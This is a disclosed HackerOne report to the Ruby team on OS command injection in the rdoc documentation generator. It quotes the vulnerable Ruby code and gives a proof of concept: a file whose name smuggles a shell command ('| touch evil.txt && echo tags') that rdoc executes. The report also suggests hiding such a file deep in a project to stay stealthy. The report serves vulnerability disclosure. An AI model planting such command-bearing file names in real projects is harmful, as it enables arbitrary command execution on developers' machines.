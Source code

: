 # OS Command Injection in 'rdoc' documentation generator

## Report Details
- **Report ID**: 1161691
- **URL**: https://hackerone.com/reports/1161691
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-04-12T16:47:15.754Z
- **Disclosed**: 2021-07-13T07:38:03.945Z

## Reporter
- **Username**: sighook
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
Details:
If the `remove_unparseable` function  receives a list of files with a command in the name of one of them, it will be executed.
Just enough the name to match the pattern. The problem code:
```ruby
  def remove_unparseable files
    files.reject do |file, *|
      file =~ /\.(?:class|eps|erb|scpt\.txt|svg|ttf|yml)$/i or
        (file =~ /tags$/i and
         open(file, 'rb') { |io|
           io.read(100) =~ /\A(\f\n[^,]+,\d+$|!_TAG_)/
         })
    end
  end
```


# PoC

```bash
$ touch '| touch evil.txt && echo tags'
$ ls
'| touch evil.txt && echo tags'
$ rdoc --all
Parsing sources...
100% [ 1/ 1]  | touch evil.txt && echo tags

Generating Darkfish format into /home/tmp/doc...

  Files:      1

  Classes:    0 (0 undocumented)
  Modules:    0 (0 undocumented)
  Constants:  0 (0 undocumented)
  Attributes: 0 (0 undocumented)
  Methods:    0 (0 undocumented)

  Total:      0 (0 undocumented)
    0.00% documented

  Elapsed: 0.1s

$ ls
doc   evil.txt  '| touch evil.txt && echo tags'
```

I set to the vulnerability the same severity as in https://hackerone.com/reports/651518, since rdoc is widely used on dev/production systems and, therefore, the attack also has a wide range of applications.  An attacker can hide a bad-named-file deep in the project structure to be stealthy some time.

## Impact

An attacker can leverage this weakness to execute arbitrary commands, disclose sensitive information and cause denial of service.

## Attachments
No attachments
